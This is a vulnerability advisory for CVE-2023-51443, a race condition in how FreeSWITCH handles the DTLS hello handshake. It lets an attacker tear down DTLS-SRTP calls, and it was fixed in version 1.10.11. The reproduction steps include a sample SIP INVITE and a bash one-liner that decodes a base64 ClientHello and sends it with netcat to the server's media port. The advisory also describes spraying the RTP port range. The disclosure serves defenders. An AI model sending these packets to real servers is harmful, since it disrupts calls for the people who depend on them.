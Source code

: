 # FreeSWITCH susceptible to Denial of Service via DTLS Hello packets during call initiation

- Fixed versions: 1.10.11
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2023-02-freeswitch-dtls-hello-race
- Vendor Security Advisory: https://github.com/signalwire/freeswitch/security/advisories/GHSA-39gv-hq72-j6m6
- Other references: CVE-2023-51443
- Tested vulnerable versions: 1.10.10
- Timeline:
	- Report date: 2023-09-27
	- Triaged: 2023-09-27
	- Fix provided for testing: 2023-09-29
	- Vendor release with fix: 2023-12-22
	- Enable Security advisory: 2023-12-22

## TL;DR

When handling DTLS-SRTP for media setup, FreeSWITCH is susceptible to Denial of Service due to a race condition in the hello handshake phase of the DTLS protocol. This attack can be done continuously, thus denying new DTLS-SRTP encrypted calls during the attack.

## Description

Our research has shown that key establishment for Secure Real-time Transport Protocol (SRTP) using Datagram Transport Layer Security Extension (DTLS)[^1] is susceptible to a Denial of Service attack due to a race condition. If an attacker manages to send a ClientHello DTLS message with an invalid CipherSuite (such as `TLS_NULL_WITH_NULL_NULL`) to the port on the FreeSWITCH server that is expecting packets from the caller, a DTLS error is generated. This results in the media session being torn down, which is followed by teardown at signaling (SIP) level too.

This behavior was tested against FreeSWITCH version 1.10.10, which was found to be vulnerable to this issue.

The following sequence diagram shows the normal flow (i.e. no attack) involving SIP and DTLS messages between a UAC (the Caller) and an FreeSWITCH server capable of handling WebRTC calls.

Diagram showing a call setup against FreeSWITCH that uses SIP and DTLS:
![Diagram showing a call setup against FreeSWITCH that uses SIP and DTLS](resources/valid.png)

In a controlled experiment, it was observed that when the Attacker sent a DTLS ClientHello to FreeSWITCH's media port from a different IP and port, FreeSWITCH responded by sending a DTLS Alert to the Caller. Additionally, FreeSWITCH terminated the SIP call by sending a BYE message to the Caller.

![Diagram showing a call setup against FreeSWITCH that fails due to an attacker controlled DTLS ClientHello](resources/dos.png)

During a real attack, the attacker would spray a vulnerable FreeSWITCH server with DTLS ClientHello messages. The attacker would typically target the range of UDP ports allocated for RTP. When the ClientHello message from the Attacker wins the race against an expected ClientHello from the Caller, the call terminates, resulting in Denial of Service.


## Impact

Abuse of this vulnerability may lead to a massive Denial of Service on vulnerable FreeSWITCH servers for calls that rely on DTLS-SRTP.

## How to reproduce the issue

1. Prepare a FreeSWITCH server with an extension configured to handle WebRTC
1. Send an INVITE message to the target server with WebRTC SDP:

    ```default
	INVITE sip:1000@192.168.1.202 SIP/2.0
	Via: SIP/2.0/WSS 192.168.1.202:36742;rport=36742;branch=z9hG4bK-jQcnXJadB2VGfGmQ
	Max-Forwards: 70
	From: <sip:1000@192.168.1.202>;tag=L9kc5NfpYG1u67cT
	To: <sip:1000@192.168.1.202>
	Contact: <sip:1000@192.168.1.202>
	Call-ID: DzGnBLt0z9SK3MC0
	CSeq: 5 INVITE
	Content-Type: application/sdp
	Content-Length: 385

	v=0
	o=- 1695296331 1695296331 IN IP4 192.168.1.202
	s=-
	t=0 0
	c=IN IP4 192.168.1.202
	m=audio 45825 UDP/TLS/RTP/SAVPF 0 8 101
	a=setup:active
	a=fingerprint:sha-256 49:05:98:B2:15:43:1C:9C:4F:29:07:60:F8:63:77:16:80:F9:44:C0:97:8E:E5:48:D6:71:B4:03:10:85:D6:E3
	a=rtpmap:0 PCMU/8000/1
	a=rtpmap:8 PCMA/8000/1
	a=rtpmap:101 telephone-event/8000
	a=rtcp-mux
	a=rtcprsize
	a=sendrecv
	```
1. Note FreeSWITCH's media port and IP values, which will be used as the `<freeswitch-ip>` and `<media-port>` parameters by the Attacker
1. Send a DTLS ClientHello message from a (attacker-controlled) host, which is different from the Caller but has network access to the FreeSWITCH server

    ```bash
	CLIENT_HELLO="Fv7/AAAAAAAAAAAAfAEAAHAAAAAAAAAAcP79AAA" 
	CLIENT_HELLO="${CLIENT_HELLO}AAG4HCVaUNVbYVmxuqdn2WyCgtTijhZ+WheP/+H"
	CLIENT_HELLO="${CLIENT_HELLO}4AAAACAAABAABEABcAAP8BAAEAAAoACAAGAB0AF"
	CLIENT_HELLO="${CLIENT_HELLO}wAYAAsAAgEAACMAAAANABQAEgQDCAQEAQUDCAUF"
	CLIENT_HELLO="${CLIENT_HELLO}AQgGBgECAQAOAAkABgABAAgABwA="
	echo -n "${CLIENT_HELLO}" | base64 --decode | nc -u <freeswitch-ip> <media-port>
	```
1. Observe that the Caller received a DTLS Alert message and a SIP BYE message on its signaling channel

Note that the above steps are used to reliably reproduce the vulnerability. In case of a real attack, the attacker simply has to spray the FreeSWITCH server with DTLS messages.

## Solution and recommendations

To address this vulnerability, upgrade FreeSWITCH to the latest version which includes the security fix. The solution implemented is to drop all packets from addresses that have not been validated by an ICE check.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

[^1]: Datagram Transport Layer Security (DTLS) Extension to Establish Keys for the Secure Real-time Transport Protocol (SRTP) https://datatracker.ietf.org/doc/html/rfc5764